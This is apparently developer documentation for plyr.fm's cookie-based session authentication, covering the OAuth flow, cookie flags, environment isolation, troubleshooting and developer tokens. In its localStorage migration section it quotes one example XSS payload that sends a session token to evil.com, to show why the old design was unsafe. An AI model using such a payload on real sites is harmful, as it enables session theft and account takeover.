

# authentication

plyr.fm uses secure cookie-based authentication to protect user sessions from XSS attacks.

## overview

**flow**:
1. user initiates OAuth login via `/auth/start?handle={handle}`
2. backend redirects to user's PDS for authorization
3. PDS redirects back to `/auth/callback` with authorization code
4. backend exchanges code for OAuth tokens, creates session
5. backend creates one-time exchange token, redirects to frontend
6. frontend calls `/auth/exchange` with exchange token
7. backend sets HttpOnly cookie and returns session_id
8. all subsequent requests automatically include cookie



**key security properties**:
- session tokens stored in HttpOnly cookies (not accessible to JavaScript)
- cookies use `Secure` flag (HTTPS only in production)
- cookies use `SameSite=Lax` (CSRF protection)
- no explicit domain set (prevents cross-environment leakage)
- frontend never touches session_id in localStorage or JavaScript

## backend implementation

### setting cookies

cookies are set in `/auth/exchange` after validating the one-time exchange token:

```python
# src/backend/api/auth.py
if is_browser and settings.frontend.url:
    is_localhost = settings.frontend.url.startswith("http://localhost")

    response.set_cookie(
        key="session_id",
        value=session_id,
        httponly=True,
        secure=not is_localhost,  # secure cookies require HTTPS
        samesite="lax",
        max_age=14 * 24 * 60 * 60,  # 14 days
    )
```

**environment behavior**:
- **localhost**: `secure=False` (HTTP development)
- **staging/production**: `secure=True` (HTTPS required)
- **no domain parameter**: cookies scoped to exact host (prevents staging→production leakage)

### reading cookies

auth dependencies check cookies first, fall back to Authorization header:

```python
# src/backend/_internal/auth.py
async def require_auth(
    authorization: Annotated[str | None, Header()] = None,
    session_id: Annotated[str | None, Cookie(alias="session_id")] = None,
) -> Session:
    """require authentication with cookie (browser) or header (SDK/CLI) support."""
    session_id_value = None

    if session_id:  # check cookie first
        session_id_value = session_id
    elif authorization and authorization.startswith("Bearer "):
        session_id_value = authorization.removeprefix("Bearer ")

    if not session_id_value:
        raise HTTPException(status_code=401, detail="not authenticated")

    session = await get_session(session_id_value)
    if not session:
        raise HTTPException(status_code=401, detail="invalid or expired session")

    return session
```

**parameter aliasing**: `Cookie(alias="session_id")` tells FastAPI to look for a cookie named `session_id` (not the parameter name).

### optional auth endpoints

endpoints that show different data for authenticated vs anonymous users:

```python
# src/backend/api/tracks.py
@router.get("/")
async def list_tracks(
    db: Annotated[AsyncSession, Depends(get_db)],
    request: Request,
    session_id_cookie: Annotated[str | None, Cookie(alias="session_id")] = None,
) -> dict:
    # check cookie or header
    session_id = (
        session_id_cookie
        or request.headers.get("authorization", "").replace("Bearer ", "")
    )

    # optional auth logic
    if session_id and (auth_session := await get_session(session_id)):
        # fetch liked tracks for authenticated user
        liked_track_ids = set(...)
```

**examples**:
- `/tracks/` - shows liked state if authenticated
- `/tracks/{track_id}` - shows liked state if authenticated
- `/albums/{handle}/{slug}` - shows liked state for album tracks if authenticated

## frontend implementation

### sending cookies

all requests include `credentials: 'include'` to send cookies:

```typescript
// frontend/src/lib/auth.svelte.ts
const response = await fetch(`${API_URL}/auth/me`, {
    credentials: 'include'  // send cookies
});
```

```typescript
// frontend/src/lib/uploader.svelte.ts (XMLHttpRequest)
const xhr = new XMLHttpRequest();
xhr.open('POST', `${API_URL}/tracks/`);
xhr.withCredentials = true;  // send cookies
```

### no localStorage

the frontend **never** reads or writes `session_id` to localStorage:

```typescript
// ❌ OLD (vulnerable to XSS)
localStorage.setItem('session_id', sessionId);
const sessionId = localStorage.getItem('session_id');
headers['Authorization'] = `Bearer ${sessionId}`;

// ✅ NEW (secure)
// cookies automatically sent with credentials: 'include'
// no manual session management needed
```

### auth state management

auth state is checked via `/auth/me`:

```typescript
// frontend/src/lib/auth.svelte.ts
async initialize() {
    try {
        const response = await fetch(`${API_URL}/auth/me`, {
            credentials: 'include'
        });

        if (response.ok) {
            const data = await response.json();
            this.user = { did: data.did, handle: data.handle };
            this.isAuthenticated = true;
        }
    } catch (error) {
        this.isAuthenticated = false;
    }
}
```

## environment architecture

all environments use custom domains on the same eTLD+1 (`.plyr.fm`) to enable cookie sharing between frontend and backend within each environment:

### staging
- **frontend**: `stg.plyr.fm` (cloudflare pages project: `plyr-fm-stg`)
- **backend**: `api-stg.plyr.fm` (fly.io app: `relay-api-staging`)
- **cookie domain**: implicit (scoped to `api-stg.plyr.fm`)
- **CORS**: backend allows `https://stg.plyr.fm`

### production
- **frontend**: `plyr.fm` (cloudflare pages project: `plyr-fm`)
- **backend**: `api.plyr.fm` (fly.io app: `relay-api`)
- **cookie domain**: implicit (scoped to `api.plyr.fm`)
- **CORS**: backend allows `https://plyr.fm` and `https://www.plyr.fm`

### local development
- **frontend**: `localhost:5173` (bun dev server)
- **backend**: `localhost:8001` (uvicorn)
- **cookie domain**: implicit (scoped to `localhost`)
- **CORS**: backend allows `http://localhost:5173`

**why no explicit domain?**

omitting the `domain` parameter prevents cookies from being shared across environments:
- staging cookie (`api-stg.plyr.fm`) **not** sent to production (`api.plyr.fm`)
- production cookie (`api.plyr.fm`) **not** sent to staging (`api-stg.plyr.fm`)

if we set `domain=".plyr.fm"`, cookies would be shared across **all** subdomains, causing session leakage between environments.

## why SameSite=Lax?

`SameSite=Lax` provides CSRF protection while allowing same-site requests:

- **allows**: navigation from `stg.plyr.fm` → `api-stg.plyr.fm` (same eTLD+1)
- **allows**: fetch with `credentials: 'include'` from same origin
- **blocks**: cross-site POST requests (CSRF protection)
- **blocks**: cookies from being sent to completely different domains

**alternative: SameSite=None**
- required for cross-site cookies (e.g., embedding widgets from external domains)
- not needed for plyr.fm since frontend and backend are same-site
- less secure (allows cross-site requests)

## why HttpOnly?

`HttpOnly` cookies cannot be accessed by JavaScript:

```javascript
// ❌ cannot read HttpOnly cookies
console.log(document.cookie);  // session_id not visible

// ✅ cookies still sent automatically
fetch('/auth/me', { credentials: 'include' });
```

**protects against**:
- XSS attacks stealing session tokens
- malicious scripts exfiltrating credentials
- account takeover via stolen sessions

**does NOT protect against**:
- CSRF (use SameSite for that)
- man-in-the-middle attacks (use Secure flag + HTTPS)
- session fixation (use secure random session IDs)

## migration from localStorage

issue #237 tracked the migration from localStorage to cookies.

**old flow** (vulnerable):
1. `/auth/exchange` returns `{ session_id: "..." }`
2. frontend stores in localStorage: `localStorage.setItem('session_id', sessionId)`
3. every request: `headers['Authorization'] = Bearer ${localStorage.getItem('session_id')}`
4. ❌ any XSS payload can steal: `fetch('https://evil.com?token=' + localStorage.getItem('session_id'))`

**new flow** (secure):
1. `/auth/exchange` sets HttpOnly cookie AND returns `{ session_id: "..." }`
2. frontend does nothing with session_id (only for SDK/CLI clients)
3. every request: `credentials: 'include'` sends cookie automatically
4. ✅ JavaScript cannot access session_id

**backwards compatibility**:
- backend still returns `session_id` in response body for non-browser clients
- backend accepts both cookies and Authorization headers
- SDK/CLI clients unaffected (continue using headers)

## security checklist

authentication implementation checklist:

- [x] cookies use `HttpOnly` flag
- [x] cookies use `Secure` flag in production
- [x] cookies use `SameSite=Lax` or `SameSite=Strict`
- [x] no explicit `domain` set (prevents cross-environment leakage)
- [x] frontend sends `credentials: 'include'` on all requests
- [x] frontend never reads/writes session_id to localStorage
- [x] backend checks cookies before Authorization header
- [x] CORS configured per environment (only allow same-origin)
- [x] session tokens are cryptographically random
- [x] sessions expire after reasonable time (14 days)
- [x] logout properly deletes cookies

## testing

### manual testing

**test cookie is set**:
1. log in at https://stg.plyr.fm
2. open DevTools → Application → Cookies → `https://api-stg.plyr.fm`
3. verify `session_id` cookie exists with:
   - HttpOnly: ✓
   - Secure: ✓
   - SameSite: Lax
   - Path: /
   - Domain: api-stg.plyr.fm (no leading dot)

**test cookie is sent**:
1. stay logged in
2. open DevTools → Network tab
3. navigate to `/portal` or any authenticated page
4. inspect request to `/auth/me`
5. verify `Cookie: session_id=...` header is present

**test cross-environment isolation**:
1. log in to staging at https://stg.plyr.fm
2. open https://plyr.fm (production)
3. verify you are NOT logged in (staging cookie not sent to production)

## troubleshooting

### cookies not being set

**symptom**: `/auth/exchange` returns 200 but no cookie in DevTools

**check**:
1. is `FRONTEND_URL` environment variable set?
   ```bash
   flyctl ssh console -a relay-api-staging
   echo $FRONTEND_URL
   ```
2. is request from a browser (user-agent header)?
3. is response using HTTPS in production (Secure flag requires it)?

### cookies not being sent

**symptom**: `/auth/me` returns 401 even after login

**check**:
1. frontend using `credentials: 'include'`?
2. CORS allowing credentials?
   ```python
   # backend MUST allow credentials
   allow_credentials=True
   ```
3. origin matches CORS regex?
4. SameSite policy blocking request?

### localhost cookies not working

**symptom**: cookies work in staging/production but not localhost

**check**:
1. is `FRONTEND_URL=http://localhost:5173` set locally?
2. frontend and backend both on `localhost` (not `127.0.0.1`)?
3. backend using `secure=False` for localhost?

## developer tokens (programmatic access)

for scripts, CLIs, and automated workflows, create a long-lived developer token:

### creating a token

**via UI (recommended)**:
1. go to portal → "your data" → "developer tokens" section
2. optionally enter a name (e.g., "upload-script", "ci-pipeline")
3. select expiration (30/90/180/365 days or never)
4. click "create token"
5. **authorize at your PDS** (you'll be redirected to approve the OAuth grant)
6. copy the token immediately after redirect (shown only once)

**via API**:
```javascript
// step 1: start OAuth flow (returns auth_url to redirect to)
const response = await fetch('/auth/developer-token/start', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    credentials: 'include',
    body: JSON.stringify({ name: 'my-script', expires_in_days: 90 })
});
const { auth_url } = await response.json();
// step 2: redirect user to auth_url to authorize at their PDS
// step 3: on callback, token is returned via exchange flow
```

### managing tokens

**list active tokens**:
the portal shows all your active developer tokens with:
- token name (or auto-generated identifier)
- creation date
- expiration date

**revoke a token**:
1. go to portal → "your data" → "developer tokens"
2. find the token in the list
3. click "revoke" to immediately invalidate it

**via API**:
```bash
# list tokens
curl -H "Authorization: Bearer $PLYR_TOKEN" https://api.plyr.fm/auth/developer-tokens

# revoke by prefix (first 8 chars shown in list)
curl -X DELETE -H "Authorization: Bearer $PLYR_TOKEN" https://api.plyr.fm/auth/developer-tokens/abc12345
```

### using tokens

set the token in your environment:
```bash
export PLYR_TOKEN="your_token_here"
```

use with any authenticated endpoint:
```bash
# check auth
curl -H "Authorization: Bearer $PLYR_TOKEN" https://api.plyr.fm/auth/me
```

**CLI usage** (`scripts/plyr.py`):
```bash
# list your tracks
PLYR_API_URL=https://api.plyr.fm uv run scripts/plyr.py list

# upload a track
PLYR_API_URL=https://api.plyr.fm uv run scripts/plyr.py upload track.mp3 "My Track"

# download a track
PLYR_API_URL=https://api.plyr.fm uv run scripts/plyr.py download 42 -o my-track.mp3

# delete a track
PLYR_API_URL=https://api.plyr.fm uv run scripts/plyr.py delete 42 -y
```

### configuration

backend settings in `AuthSettings`:
- `developer_token_default_days`: default expiration (90 days)
- `developer_token_max_days`: max allowed expiration (365 days)
- use `expires_in_days: 0` for tokens that never expire

### how it works

developer tokens are sessions with their own independent OAuth grant. when you create a dev token, you go through a full OAuth authorization flow at your PDS, which gives the token its own access/refresh credentials. this means:
- dev tokens can refresh independently (no staleness when browser session refreshes)
- each token has its own DPoP keypair for request signing
- logging out of browser doesn't affect dev tokens (cookie isolation)
- revoking browser session doesn't affect dev tokens

dev tokens can:
- read your data (tracks, likes, profile)
- upload tracks (creates ATProto records on your PDS)
- perform any authenticated action

**security notes**:
- tokens have full account access - treat like passwords
- revoke individual tokens via the portal or API
- each token is independent - revoking one doesn't affect others
- token names help identify which token is used where
- tokens require explicit OAuth consent at your PDS

## references

- [MDN: HttpOnly cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#security)
- [MDN: SameSite cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value)
- [OWASP: Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [ATProto OAuth spec](https://atproto.com/specs/oauth)
- issue #237: secure browser auth storage
- PR #239: frontend localStorage removal
- PR #243: backend cookie implementation
- PR #244: merged cookie-based auth
- PR #367: developer tokens with independent OAuth grants
